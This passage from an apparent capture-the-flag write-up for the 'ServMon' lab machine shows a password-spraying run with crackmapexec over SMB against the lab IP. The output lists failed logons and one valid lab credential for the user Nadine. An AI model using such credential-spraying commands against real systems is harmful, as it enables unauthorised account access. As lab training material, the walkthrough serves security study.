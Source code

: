 ![4](../../../assets/images/Servmon/4.png)

<br />

GG!! We have found several `passwords`!!

We `save` the output to a file and continue with the enumeration.

Based on the usernames found in the FTP server, we can now use `crackmapexec` to see if any of these passwords work for Nadine or Nathan `(Password Spraying)`:

<br />

```bash
❯ crackmapexec smb 10.10.10.184 -u users.txt -p passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk
```
